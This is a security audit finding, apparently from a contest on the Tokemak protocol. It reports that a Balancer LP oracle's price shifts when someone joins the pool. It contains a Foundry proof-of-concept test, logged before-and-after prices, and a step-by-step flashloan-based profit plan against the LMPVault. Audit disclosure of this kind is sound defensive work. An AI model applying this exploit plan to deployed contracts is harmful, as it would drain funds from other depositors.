 Perfect Dijon Leopard

medium

# `BalancerLPComposableStableEthOracle::getPriceInEth` can be updated by joining the pool
## Summary

`BalancerLPComposableStableEthOracle::getPriceInEth` will return different price upon joining the pool.
An attacker can abuse the price difference to gain profit off other users.


## Vulnerability Detail

The proof of concept in the following gist demonstrates how the `BalancerLPComposableStableEthOracle::getPriceInEth` can be updated by joining the pool:
https://gist.github.com/lemonmon1984/ae73bfa007b5421d6d6efdbb0f2d9202

The proof of concept is diff from the existing test `test/oralces/providers/BalancerLPComposableEthOracle.t.sol`.
The test function is copied below:

```solidity
    function testWstETHsFRXEthrETHPool_poc() public {
        mockRootPrice(WSTETH, 1_124_023_737_293_252_681); //wstETH
        mockRootPrice(RETH, 1_071_929_592_001_012_800); //rETH
        mockRootPrice(SFRXETH, 1_039_355_991_640_087_568); //sfrxETH

        uint256 price = oracle.getPriceInEth(WSTETH_RETH_SFRXETH_POOL);
        emit log_named_uint("price", price);

        // joinPool
        address wstethWhale = 0x5fEC2f34D80ED82370F733043B6A536d7e9D7f8d;   
        IBalancerPool pool = IBalancerPool(WSTETH_RETH_SFRXETH_POOL);
        bytes32 poolId = pool.getPoolId();
        (IERC20[] memory poolTokens,,) = VAULT.getPoolTokens(poolId);
        uint256[] memory amountIn = new uint256[](4);
        amountIn[1] = 100000; // WSTETH in


        uint256[] memory amountsUser = new uint256[](3);
        amountsUser[0] = amountIn[1];
        amountsUser[1] = amountIn[2];
        amountsUser[2] = amountIn[3];
        IBalancerVault.JoinPoolRequest memory joinRequest = IBalancerVault.JoinPoolRequest({
          assets: _convertERC20sToAddresses(poolTokens),
          maxAmountsIn: amountIn,
          userData: abi.encode(
            IBalancerVault.JoinKind.EXACT_TOKENS_IN_FOR_BPT_OUT,
            amountsUser,
            0
          ),
          fromInternalBalance: false
        });

        vm.startPrank(wstethWhale);
        IERC20(WSTETH_MAINNET).approve(address(VAULT), type(uint256).max);
        VAULT.joinPool(poolId, wstethWhale, wstethWhale, joinRequest);
        vm.stopPrank();


        price = oracle.getPriceInEth(WSTETH_RETH_SFRXETH_POOL);
        emit log_named_uint("price", price);
    }
    function _convertERC20sToAddresses(IERC20[] memory tokens) internal pure returns (address[] memory assets) {
        //slither-disable-start assembly
        //solhint-disable-next-line no-inline-assembly
        assembly {
            assets := tokens
        }
        //slither-disable-end assembly
    }
```

In the example, the price is printed twice, before joining the pool and after joining the pool.
As the log shows:

```solidity
Logs:
  price: 1006782204451297204
  price: 1006790817198331710
```

The price will reflect the price movement of the asset in question.
So the caller does not seem to control the direction of the price movement, as well as the price different.
If the asset's price is moving more the price discrepancy before and after the joining will be bigger.
Also, the `amountIn` to the pool can be small as the snippet of the proof of concept shows: 100000 wei of WSTETH.

An attacker can use this price change to gain profit in the same manner in the issue 10 - "`LMPVault`'s cached `totalDebt` can be abused to drain `LMPVault`".
In the issue 10, the attacker waits for the price movement and call (deposit -> updateDebtReporting -> withdraw) to gain profit.

With the current issue, the attacker would follow these steps to profit:
1. join the pool to see the price movement
1. if the price movement is up, deposit into LMPVault
1. updateDebtReporting to make the totalDebt higher
1. withdraw
- condition: there is a DestinationVault using BalancerLPComposableStablePool, and some asset is deployed to the vault

The attacker can use flashloan to maximize the gain as all the steps should be done in the same transaction.

Although the attacker can choose the direction of the price movement, they can deploy a smart contract to selectively react on their favorable price movement.

Also, even if the issue 10 is fixed, the attacker can still exploit this issue by using a smart contract. The contract would deposit on the LMPVault first then join the pool to see the price has gone up or down. If the price should go up, whole LMPVault share will be withdrawn, solidifying the profit, otherwise just revert.

The price movement may be smaller than the issue 11 - "`BalancerLPComposableStableEthOracle::getPriceInEth` can be updated by joining the pool" of the LP token price manipulation, but the attacker's investment is also small (compare to the swap fee in the issue 11).


The price from the `BalancerLPComposableStableEthOracle::getPriceInEth` changes upon joining the pool, due to the update of the `pool.getRate` value.

```solidity
72         price = (minPrice * pool.getRate()) / 1e18; 
```

## Impact

An attacker can profit from the update of the price, causing the LMPVault and other depositors take the loss.


## Code Snippet

https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/oracles/providers/BalancerLPComposableStableEthOracle.sol#L72

## Tool used

Manual Review

## Recommendation

update the `IBalancerComposableStablePool`'s getRate value before using it for the price

